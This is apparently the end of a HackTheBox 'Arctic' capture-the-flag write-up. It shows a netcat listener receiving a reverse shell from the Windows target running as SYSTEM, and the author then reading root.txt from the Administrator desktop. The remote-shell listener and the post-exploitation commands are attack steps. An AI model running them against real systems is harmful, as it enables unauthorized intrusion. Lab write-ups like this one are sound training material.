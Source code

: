 Visiting the netcat listener, I got a shell
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Artic]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.11] 50113
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\wwwroot\userfiles\file>whoami
whoami
nt authority\system
```

From here, I grabbed the `root.txt`

```
C:\ColdFusion8\wwwroot\userfiles\file>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\Users\Administrator\Desktop

22/03/2017  09:02 ��    <DIR>          .
22/03/2017  09:02 ��    <DIR>          ..
05/02/2023  03:45 ��                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   1.433.055.232 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
[REDACTED]

```

